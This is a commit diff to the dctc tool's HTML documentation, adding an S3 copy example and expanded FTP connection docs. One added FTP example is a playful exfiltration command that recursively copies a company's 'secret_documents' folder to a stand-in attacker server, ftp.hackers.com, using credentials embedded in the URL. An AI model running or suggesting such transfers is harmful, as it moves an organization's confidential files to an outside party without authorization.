

Before and after one commit to dataiku/dctc, a plain HTML site: page protocols.html in a window 1280 px wide. Shown: the part 3488-4696 px from the top of the page, without its empty margins (499-1139 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Add more info about FTP connections

```diff
--- a/protocols.html
+++ b/protocols.html
@@ -153,6 +153,10 @@ account2.secret_key = B123qsdiojpazeokpz235/ZHjqbuohzaiojz2</pre></code>
 
         <p>Non-default accounts are accessed using the <code>s3://account@bucket/path</code> syntax.</p>
 
+         <p>For example, to copy a file from the default S3 account to a specific S3 account:</p>
+        <code><pre>% dctc cp s3://bucket1/folder/path s3://account2@bucket2/other_folder/path</pre></code>
+
+
         <h1>Google Cloud Storage</h1>
 
         <h2>Configuration</h2>
@@ -198,11 +202,16 @@ account2.secret_key = /Users/john/secret/gs/key_123095490690384.p12</pre></code>
 
         <h1>FTP</h1>
 
-        <p>FTP can operate either with a configuration specifying hostname, username and password, or by specifying all data on the command line.</p>
+        <p><code>dctc</code> can operate on FTP filesystems:</p>
+
+        <ul>
+          <li>either using the configuration file, with an account specifying the hostname, username and password,</li>
+          <li>or by specifying all required data in the URL</li>
+        </ul>
 
         <h3>With configuration</h3>
 
-        <p>Configuration for a FTP connection must contain the following parameters:</p>
+        <p>Configuration for a FTP account must contain the following parameters:</p>
         <ul>
           <li><strong>host</strong>: FTP Server host name</li>
           <li><strong>username</strong>: User name</li>
@@ -210,19 +219,40 @@ account2.secret_key = /Users/john/secret/gs/key_123095490690384.p12</pre></code>
         </ul>
 
         <p>
-                You must then connect using the name of the account in the configuration file.
+          In the file URL, you then need to use the name of the account.
           For example: <code>ftp://accountname@/path/on/the/ftp/server</code>
         </p>
 
-        <p><strong>Important note: </strong> FTP does not support the "default" account. You must always explicitely select an account.</p>
+        <p><strong>Important note: </strong> FTP does not support the notion of "default" account.
+        You must always explicitely indicate an account with <code>accountname@</code>.</p>
 
-        <h3>On the command line</h3>
+        <h3>Specifying data in the URL</h3>
 
-        <p>You can connect either anonymously or with a login password:</p>
+        <p>You can specify on the URL a FTP connection, either with anonymous FTP connection or with a login:</p>
         <ul>
           <li><code>ftp://host/path</code></li>
           <li><code>ftp://username:password@host/path</code></li>
         </ul>
+
+        <h3>Example</h3>
+
+        <p>With the following configuration file:</p>
+        <pre><code>[ftp]
+company.hostname = ftp.mycompany.com
+company.username = john
+company.password = thisisaverysecretpasswordnobodywillguessit
+        </code></pre>
+
+        <p>you could have the following:</p>
+
+        <pre><code>% dctc cp -R ftp://company@/secret_documents ftp://hacker:h4cK3RZP4ssword@ftp.hackers.com/path
+# Get some documents out of the company FTP to ftp.hackers.com.
+# Connection data to company FTP is from the configuration file.
+# Connection data to hackers FTP is on the URL
+
+% dctc sync ftp://ftp.free.fr/pub/Distributions_Linux/debian-cd/ ftp://company@/debian-mirror
+# Synchronize incrementally all data from ftp.free.fr (which allows anonymous login)
+# to a path on the company FTP</code></pre>
 
 
 
```
